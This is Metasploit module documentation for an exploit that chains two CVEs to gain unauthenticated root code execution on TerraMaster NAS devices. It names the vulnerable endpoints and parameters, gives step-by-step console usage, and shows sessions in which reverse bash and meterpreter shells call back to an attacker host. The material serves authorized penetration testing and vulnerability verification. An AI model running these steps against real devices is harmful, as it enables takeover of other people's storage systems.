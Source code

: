 ## Vulnerable Application

This module combines [CVE-2022-24990: Leaking sensitive information](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-24990) and
[CVE-2022-24989: Authenticated remote code execution](https://www.redpacketsecurity.com/terramaster-tos-command-execution-cve-2022-24989/)
to achieve an unauthenticated RCE by exploiting vulnerable endpoint `api.php?mobile/webNasIPS` leaking sensitive information such as
admin password hash and mac address to achieve unauthenticated access and use the vulnerable endpoint`api.php?mobile/createRaid` with
`POST` parameters `raidtype` / `diskstring` to execute remote code as root on TerraMaster NAS devices.

All TerraMaster devices running TerraMaster Operating System (TOS) `4.2.29` or lower are vulnerable.

Installing a vulnerable test bed requires a TerraMaster NAS device that can run `TOS 4.x`
This module has been tested against a TerraMaster `F2-221` Model with the specifications listed below:

* TerraMaster F2-221
* CPU: `x86`
* TOS Version: `4.2.08`

## Verification Steps

1. `use exploit/linux/http/terramaster_unauth_rce_cve_2022_24990`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0-Unix command or 1-Linux Dropper>`
1. `exploit`
1. You should get a `bash` shell or `meterpreter` session depending on the `target` and `payload` settings.

## Options
No specific options.

## Scenarios

```
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2022_24990) > info

       Name: TerraMaster TOS 4.2.29 or lower - Unauthenticated RCE chaining CVE-2022-24990 and CVE-2022-24989
     Module: exploit/linux/http/terramaster_unauth_rce_cve_2022_24990
   Platform: Unix, Linux
       Arch: cmd, php, x64, x86, aarch64
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2022-03-07

Provided by:
  h00die-gr3y <h00die.gr3y@gmail.com>
  Octagon Networks
  0xf4n9x

Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
      Id  Name
      --  ----
  =>  0   Unix Command
      1   Linux Dropper

Check supported:
  Yes

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.h
                                        tml
  RPORT      8181             yes       The target port (TCP)
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
  TARGETURI  /                yes       Path to Terramaster Web console
  URIPATH                     no        The URI to use for this exploit (default is random)
  VHOST                       no        HTTP server virtual host


  When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0
                                      .0.0 to listen on all addresses.
  SRVPORT  8080             yes       The local port to listen on.

Payload information:

Description:
  This module exploits an unauthenticated remote code execution vulnerability in TerraMaster TOS 4.2.29
  and lower by chaining two existing vulnerabilities, CVE-2022-24990 "Leaking sensitive information"
  and CVE-2022-24989, "Authenticated remote code execution".
  Exploiting vulnerable endpoint `api.php?mobile/webNasIPS` leaking sensitive information such as admin password
  hash and mac address, the attacker can achieve unauthenticated access and use another vulnerable endpoint
  `api.php?mobile/createRaid` with POST parameters `raidtype` and `diskstring` to execute remote code as root
  on TerraMaster NAS devices.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2022-24990
  https://nvd.nist.gov/vuln/detail/CVE-2022-24989
  https://octagon.net/blog/2022/03/07/cve-2022-24990-terrmaster-tos-unauthenticated-remote-command-execution-via-php-object-instantiation/
  https://github.com/0xf4n9x/CVE-2022-24990
  https://attackerkb.com/topics/h8YKVKx21t/cve-2022-24990


View the full module info with the info -d command.
```

### TerraMaster F2-221 TOS 4.2.08 - Unix Command `cmd/unix/reverse_bash` session
```
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2022_24990) > set target 0
target => 0
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2022_24990) > exploit

[*] Started reverse TCP handler on 192.168.10.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. TOS version is 4.2.08 and CPU architecture is X64.
[*] Executing Unix Command for cmd/unix/reverse_bash
[*] Command shell session 1 opened (192.168.10.1:4444 -> 192.168.10.2:54556) at 2023-06-10 12:31:22 +0000

uname -a
Linux TerrorMaster 4.13.16 SMP Mon Jun 10 14:32:13 CET 2023 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root)
```
### TerraMaster F2-221 TOS 4.2.08 - Linux Dropper `linux/x64/meterpreter/reverse_tcp` session
```
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2022_24990) > set target 1
target => 1
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2022_24990) > exploit

[*] Started reverse TCP handler on 192.168.10.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. TOS version is 4.2.08 and CPU architecture is X64.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Sending stage (3045348 bytes) to 127.0.0.1
[*] Meterpreter session 2 opened (192.168.10.1:4444 -> 192.168.10.2:46174) at 2023-06-10 12:39:01 +0000
[*] Command Stager progress - 100.00% done (810/810 bytes)

meterpreter > sysinfo
Computer     : 192.168.10.2
OS           :  (Linux 4.13.16)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
meterpreter >
```

## Limitations
No limitations.
